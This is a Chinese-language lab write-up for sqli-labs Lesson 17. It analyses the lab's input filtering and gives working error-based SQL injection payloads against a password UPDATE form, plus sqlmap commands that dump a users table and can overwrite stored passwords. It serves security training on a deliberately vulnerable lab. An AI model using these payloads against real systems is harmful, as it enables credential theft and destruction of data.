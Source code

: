 ```yaml
---
title: sqli-labs lession 17 POST基于错误的更新
date: 2018-09-28 09:11:00
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs lession 17 POST基于错误的更新 #
---

## 登录界面 ##

![1](/img/sql/Lesson-17/1.png)

## 手注 ##

### 分析 ###

根据题目意思要利用的是Update的错误。先检查一下UserName这一块。

发现输入一些信息后无论怎样都没触发错误。检查源码

![2](/img/sql/Lesson-17/2.png)

发现uname被check_input函数处理了。通读代码,理解一下什么意思。

	function check_input($value)
	{
	if(!empty($value))
		//检查传入的账号名为非空
		{
		// truncation (see comments)
		$value = substr($value,0,15);
		//限制用户名长度为15以下,如果传入的用户名超过15位会只使用前15位
		}
	
		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc())
		//获取当前php.ini配置文件中magic_quotes_gpc的配置选项设置

<font color=red>用phpstudy切换版本php5.2.17+Aphache</font>

可以看到php.ini配置文件中`magic_quotes_gpc`配置打开了。

![3](/img/sql/Lesson-17/3.png)

在php.net查看该函数详细信息。

![4](/img/sql/Lesson-17/4.png)


* 当php.ini里的magic_quotes_gpc=On时，提交的变量中所有的单引号，双引号，反斜线，NUL（NULL字符）会自动转为含有反斜线的转义字符

* 魔术引号（Magic Quote）是一个自动将进入PHP脚本的数据进行转义的过程。（对所有的GET，POST，Cookie数据进行转义）

这就是我输入的数据没被数据库解析的原因,它把引号转义了。

			{
			$value = stripslashes($value);
			//使用stripslashes()去掉多余的反斜杠
			}
	
		// Quote if not a number
		if (!ctype_digit($value))
			//检查$value是不是十进制数字,如果不是就执行if中的语句

![5](/img/sql/Lesson-17/5.png)

给特殊字符添加转义

			{
			$value = "'" . mysql_real_escape_string($value) . "'";
			//转义特殊字符并用''拼接
			}
		else
			{
			$value = intval($value);
			//获取$value的整数值
			}
		return $value;
	}

写个`admin'`进去,它就做了如下处理

![6](/img/sql/Lesson-17/6.png)

根据上述username不是很好利用,利用password。因为password没有经过函数过滤。

![7](/img/sql/Lesson-17/7.png)

根据题目提示,发现这里其实是一个update的功能,用来修改账户的密码。

只要用户名查询存在,可以修改任意密码。

![8](/img/sql/Lesson-17/8.png)

修改admin用户密码为123456,提交。

![9](/img/sql/Lesson-17/9.png)

密码修改成功。

### 判断类型 ###

为了实验成功先确认php.ini文件中`magic_quotes_gpc`为`Off`,因为它是一个全局配置,启用下会将对POST请求的password中的特殊字符转义。

![10](/img/sql/Lesson-17/10.png)

单引号报错,构造报错注入。

### 获取当前数据库 ###

`' and extractvalue(null,concat(0x7e,database(),0x7e))#`

![11](/img/sql/Lesson-17/11.png)

### 获取表 ###

`' and extractvalue(null,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))#`

![12](/img/sql/Lesson-17/12.png)

### 获取列 ###

`' and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e))#`

![13](/img/sql/Lesson-17/13.png)

### 获取字段值 ###

![14](/img/sql/Lesson-17/14.png)

`' and (select 1 from (select count(*),concat((select concat(id,'-',username,'-',password) from security.users limit 0,1), '~' , floor (rand()*2))as a from information_schema.tables group by a) as b limit 0,1) #`

## SQLMAP ##

`sqlmap -u http://10.60.250.66/sqlilabs/Less-17/ --data "uname=admin&passwd='and 1=2&submit=Submit" --threads 10 --technique E`

![15](/img/sql/Lesson-17/15.png)


![16](/img/sql/Lesson-17/16.png)

`sqlmap -u http://10.60.250.66/sqlilabs/Less-17/ --data "uname=admin&passwd='and 1=2&submit=Submit" -D security -T users --columns --dump`

![17](/img/sql/Lesson-17/17.png)

我擦,sqlmap这个payload把密码全改成了0,这个有待观察。

查了一些资料,终于找到问题了,update报错注入要注意不能带入or的测试用例,不然会给数据库数据带来翻天覆地的变化。下面我的url地址换了,不过其实一样。

刚开始数据库信息:

![18](/img/sql/Lesson-17/18.png)

```
--data:指定请求信息

-p:指定参数

--dbms:指定后端数据库

--threads:指定并发线程数

--method:指定请求方式

--flush-session:清除session

--fresh-queries:发起新的请求

--level 1:尝试POST和GET注入 

--risk 1:仅测试常见用例

--technique E:仅测试报错注入方式
```

`sqlmap -u "http://10.60.250.66/sql/Less-17/" --data "uname=admin&passwd=woshiadmin&submit=Submit" -p passwd --dbms mysql --threads 10 --method POST --flush-session --fresh-queries --level 1 --risk 1 --technique E`

![19](/img/sql/Lesson-17/19.png)

在出现这条提示后先不要执行,查看数据库,发现admin账号的密码被修改。

![20](/img/sql/Lesson-17/20.png)

<font color=red>已经找到了可能注入点,不需要测试所有用例,因为所有用例中必定会有or的用例,会对数据库进行破坏,选n</font>

![21](/img/sql/Lesson-17/21.png)

继续用no

![22](/img/sql/Lesson-17/22.png)

接下来就对了。

`sqlmap -u "http://10.60.250.66/sql/Less-17/" --data "uname=admin&passwd=woshiadmin&submit=Submit" -p passwd --dbms mysql --threads 10 --method POST  --level 1 --risk 1 --technique E -D security -T users --columns --dump`

![23](/img/sql/Lesson-17/23.png)
